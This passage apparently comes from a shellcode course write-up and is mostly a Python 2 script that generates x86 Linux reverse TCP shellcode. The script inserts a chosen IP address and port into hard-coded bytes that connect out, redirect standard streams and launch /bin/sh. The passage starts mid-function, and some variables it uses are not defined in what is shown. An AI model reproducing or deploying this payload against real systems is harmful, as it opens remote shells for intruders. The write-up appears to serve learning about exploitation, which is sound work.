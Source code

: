 ```python
	port_no = r'\x{}\x{}'.format(h1,h2)
	return port_no


if not len(sys.argv) == 3:
	print 'Usage: {} ip port'.format(sys.argv[0])
	sys.exit()

ip = sys.argv[1]
ip_addr_shellcode = shellip(ip)


port = int(sys.argv[2])

# Check if user has passed invalid port number
if port < 1000 or port > 65535 :
	print "Either port number less than 1000: user needs to be root"
	print "Or"
	print "Port number greater than 65535"
	sys.exit()

port_no_shellcode = shellport(port)

print '\nIP: {0}, Hex: {1}, inShellcode: {2}'.format(ip, hex_ip, ip_addr_shellcode)
print 'Port: {0} , Hex = {1}, inShellcode = {2}\n'.format(port, hex_port, port_no_shellcode)


shellcode = (r"\x31\xc0\x50\xb0\x66\x6a\x01\x5b\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x50\x5e\xb0\x66\x5b\x68" +
             ip_addr_shellcode +       # this is where our ip address will be
             r"\x66\x68" +
             port_no_shellcode +               # this is where we need to put in port number
             r"\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xcd\x80\x87\xde\x31\xc0\x31\xc9\xb1\x02\xb0" +
             r"\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80")

print '"'+shellcode+'"\n'
```
Lets look at ip address of another machine on my network.

![Another Machine on Network](/assets/asn-2-another-machine-ip.PNG)
